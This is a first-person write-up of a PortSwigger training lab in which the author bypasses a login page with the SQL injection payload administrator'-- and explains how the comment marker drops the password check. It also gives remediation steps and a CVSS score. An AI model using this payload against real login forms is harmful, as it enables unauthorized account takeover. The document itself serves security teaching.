

# How I Logged in as Administrator Without Knowing the Password

## What I Was Looking At

I moved on to the login page for this lab and immediately started thinking about how the server was checking my credentials. I had a strong feeling it was building a SQL query by stitching my username and password directly into the command, rather than using safe parameters.

My guess was that the backend query looked something like this:

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password';
```

That `AND password = 'password'` part was the gatekeeper. If I could find a way to comment it out or make it irrelevant, I could bypass the password check entirely and log in as anyone I wanted. The administrator account was the obvious target.

---

## What I Did

Here is exactly what I tried:

1. I opened the login page.
2. I typed the following payload into the username field:

```sql
administrator'--
```

3. I put something random in the password field, like:

```text
Password123
```

4. I clicked submit.
5. The application logged me straight in as the administrator.

---

## Proof of Concept

### Payload I Used

```sql
administrator'--
```

### What the Original Query Probably Looked Like

```sql
SELECT * FROM users
WHERE username = 'administrator'
AND password = 'password';
```

### What Happened After My Injection

```sql
SELECT * FROM users
WHERE username = 'administrator'--'
AND password = 'password';
```

### Why It Worked

The double dash (`--`) starts a SQL comment.

Everything following the comment marker is ignored by the database engine.

So the password check was completely stripped away, and the query effectively became:

```sql
SELECT * FROM users
WHERE username = 'administrator';
```

Since the administrator account existed, the database returned a valid user row and the application let me straight through without ever checking the password.

---

## Screenshots

### Screenshot 1 - Login Request with SQL Injection Payload

**Purpose:** Demonstrates successful authentication bypass using SQL Injection.

**Take Screenshot When:**

* Burp Suite intercepts the login request.
* The username parameter contains:

```sql
administrator'--
```

* The request is visible before forwarding.

**Insert Screenshot Below**



---

### Screenshot 2 - Administrator Dashboard / Lab Solved

**Purpose:** Demonstrates successful login as the administrator account.

**Take Screenshot When:**

* The application displays the administrator account page.
* OR the PortSwigger lab displays:

```text
Congratulations, you solved the lab!
```

**Insert Screenshot Below**


---

## Why This Matters

Bypassing a login screen is a big deal. Here is what I realized an attacker could do with this:

* Complete authentication bypass.
* Unauthorized access to privileged accounts.
* Potential administrative account compromise.
* Exposure of sensitive user information.
* Full application takeover if administrative privileges are obtained.

---

## How I Would Fix It

If I were defending this app, here is what I would change:

1. Use parameterized queries (prepared statements).
2. Never concatenate user input directly into SQL queries.
3. Implement server-side input validation.
4. Apply the principle of least privilege to database accounts.
5. Use secure authentication frameworks and ORM protections.
6. Conduct regular penetration testing and code reviews.

---

## CVSS Score

**CVSS v3.1 Score:** 9.1 (Critical)

### Vector

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
```

---

## CVSS Justification

### Attack Vector

Network (N) – Exploitable remotely through HTTP requests.

### Attack Complexity

Low (L) – No special conditions are required.

### Privileges Required

None (N) – No authentication is required to exploit this.

### User Interaction

None (N) – No victim interaction is required.

### Scope

Unchanged (U) – Impact remains within the vulnerable application.

### Confidentiality Impact

High (H) – Unauthorized access to sensitive account information.

### Integrity Impact

High (H) – Administrative actions can be performed.

### Availability Impact

Low (L) – Administrative access may indirectly affect application availability.

---

## References

* OWASP SQL Injection Prevention Cheat Sheet
* PortSwigger Web Security Academy - SQL Injection Vulnerability Allowing Login Bypass
